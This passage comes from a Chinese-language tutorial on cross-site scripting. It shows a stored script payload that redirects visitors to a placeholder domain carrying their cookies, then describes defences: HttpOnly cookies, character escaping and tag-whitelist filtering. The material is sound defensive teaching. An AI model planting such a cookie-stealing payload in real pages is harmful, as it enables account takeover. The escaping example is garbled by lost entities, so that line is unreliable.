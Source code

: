 之后该内容可能会被渲染成以下形式：

```
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

**危害**

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

## 防范手段

**1. 设置 Cookie 为 HttpOnly**

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

**2. 过滤特殊字符**

例如将 `<` 转义为 `<`，将 `>` 转义为 `>`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

以下例子中，form 和 script 等标签都被转义，而 h 和 p 等标签将会保留。

```
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test">
</form>

<pre>hello</pre>

<script type="text/javascript">
alert(/xss/);
</script>
<h1>XSS Demo</h1>

<p>123</p>

&lt;form&gt;
  &lt;input type="text" name="q" value="test"&gt;
&lt;/form&gt;

<pre>hello</pre>

&lt;script type="text/javascript"&gt;
alert(/xss/);
&lt;/script&gt;
```
